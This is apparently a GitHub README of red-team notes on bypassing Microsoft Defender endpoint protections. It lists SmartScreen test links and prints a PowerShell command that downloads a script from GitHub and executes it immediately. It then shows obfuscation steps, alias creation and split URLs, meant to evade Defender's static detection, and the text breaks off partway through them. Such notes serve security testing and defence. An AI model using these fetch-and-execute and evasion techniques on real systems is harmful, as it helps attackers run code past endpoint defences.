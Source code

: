 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    MDE[ Microsoft Defender for Endpoint ]
    --> MDEFK[ fkmde.ps1 ]
    -->| Vulnerable Exclusions | MDEEX[ Exploit MDE Exclusions with PoC ]
    MDEFK -->| Vulnerable ASR | MDEC[ Exploit ASR with PoC ]
    MDE --> MDESC[ Smart Screen testing URL ]

    APP[ Microsoft AppLocker ]
```

## Table of Contents
Enumeration
* [Smart Screen](#Smart-Screen)  
Exploits
Bypasses
* [PowerShell Obfuscation](#PowerShell Obfuscation)

## Enumeration
### Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html  

## Exploits

## Bypasses
### PowerShell Obfuscation 
This PowerShell obfuscation technique seen in the wild can be used to bypass Microsoft Defender's detection mechanisms, particularly static analysis. The un-obfuscated command looks something like this:

```
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/fkxdr/fkmde/main/fkmde.ps1" -UseBasicParsing | Invoke-Expression
```

The command fetches `fkmde` directly from github and immediately executes it. To evade detection, it is possible to obfuscate this script using several techniques at once.

1. Alias Creation: Instead of directly calling `Invoke-WebRequest`, an alias is created
   `$isuwlosas = 'ur'; new-alias press c$($isuwlosas)l`
2. Dynamic String Construction: To make the URL harder to detect, the string is split into multiple pieces dynamically
    ```$urlPart1 = 'https://raw.githubuser'; 
    $urlPart2 = 'content.com/fkxdr/fkmde/main/fkmde.ps1';
    $fullUrl = $urlPart1 + $urlPart2
    ```
